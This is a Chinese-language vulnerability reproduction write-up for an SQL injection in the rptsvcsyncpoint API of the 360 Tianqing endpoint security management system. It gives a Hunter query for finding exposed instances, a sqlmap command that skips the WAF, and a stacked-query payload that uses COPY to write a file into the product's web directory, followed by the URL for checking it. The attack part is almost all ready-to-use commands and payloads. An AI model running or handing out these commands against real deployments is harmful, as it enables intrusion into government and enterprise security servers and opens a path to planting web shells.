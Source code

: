 # 360天擎终端安全管理系统rptsvcsyncpoint存在SQL注入漏洞

# 一、漏洞简介
天擎终端安全管理系统是面向政企单位推出的一体化终端安全产品解决方案。该产品集防病毒、终端安全管控、终端准入、终端审计、外设管控、EDR等功能于一体，兼容不同操作系统和计算平台，帮助客户实现平台一体化、功能一体化、数据一体化的终端安全立体防护;奇安信360天擎rptsvcsyncpoint存在SQL注入漏洞，攻击者可通过此漏洞获取敏感信息。

# 二、影响版本
+ 360天擎终端安全管理系统

# 三、资产测绘
+ hunter`app.name=="天擎终端安全管理系统"`
+ 特征

![![image](https://github.com/user-attachments/assets/e7334948-a465-4225-a047-a119053610fe)
]

# 四、漏洞复现
sqlmap

```plain
python3 sqlmap.py -u "https://xx.xx.xx.xx/api/dp/rptsvcsyncpoint?ccid=1" --batch --skip-waf
```

![1699458415629-df2c5e1b-d4b0-445d-a456-bafb539988d5.png](./img/qLEg5VoI2Ok1Dnar/1699458415629-df2c5e1b-d4b0-445d-a456-bafb539988d5-034790.png)

文件写入

```plain
/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('123456~');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\stc.txt';drop table O;--
```

![1699458549014-42cd0a5a-b665-4a50-ad55-9d83aa571b4c.png](./img/qLEg5VoI2Ok1Dnar/1699458549014-42cd0a5a-b665-4a50-ad55-9d83aa571b4c-448311.png)

写入文件位置

```plain
http://xx.xx.xx.xx/stc.txt
```

![1699458583924-6db94f8b-bbe7-4f84-b5b6-a44495337abb.png](./img/qLEg5VoI2Ok1Dnar/1699458583924-6db94f8b-bbe7-4f84-b5b6-a44495337abb-225246.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bmxoqmgt074w5sod>
